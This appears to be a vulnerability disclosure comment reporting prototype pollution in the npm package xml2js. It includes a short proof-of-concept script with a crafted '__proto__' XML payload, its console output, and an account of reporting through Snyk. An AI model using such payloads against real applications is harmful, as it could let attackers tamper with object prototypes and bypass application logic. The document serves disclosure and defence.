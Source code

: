 This package was also found to be vulnerable to the exact same vuln prototype pollution  (fast-xml-parser).
This one offers the same features like we have in fast-xml-parser, converting xml to js object.

https://www.npmjs.com/package/xml2js

![image](https://user-images.githubusercontent.com/31372554/232061839-ea220cb5-8ba8-4fbc-89ea-6f97c7267437.png)


Here are the details, the vulnerability is prototype pollution.

Taking an example code from the github repo to demonstrate the bug:



```js
var parseString = require('xml2js').parseString;
var xml = "<__proto__><polluted>hacked</polluted></__proto__>"
parseString(xml, function (err, result) {
    console.dir(result);
});
```




In the attached screenshot you can see the `result` object was polluted with a new property.

```js
result
>{}
result.__proto__
>{polluted: 'hacked'}
result.__proto__.polluted
>'hacked'
```

More information on prototype pollution can be found here: https://learn.snyk.io/lessons/prototype-pollution/javascript/



It was really hard to get in contact with the maintainer,so I took help of Snyk Vulnerability Disclosure (https://snyk.io/vulnerability-disclosure/). I forwarded them the details in the end of Feb 2023 and recived more information on 10 Apr

![image](https://user-images.githubusercontent.com/31372554/232063590-87222517-f0ce-4864-af0e-b91baf9044ee.png)

So it seems this was already reported by some other researcher way back in 2020 : https://security.snyk.io/vuln/SNYK-JS-XML2JS-5414874

https://github.com/Leonidas-from-XIV/node-xml2js/issues/593


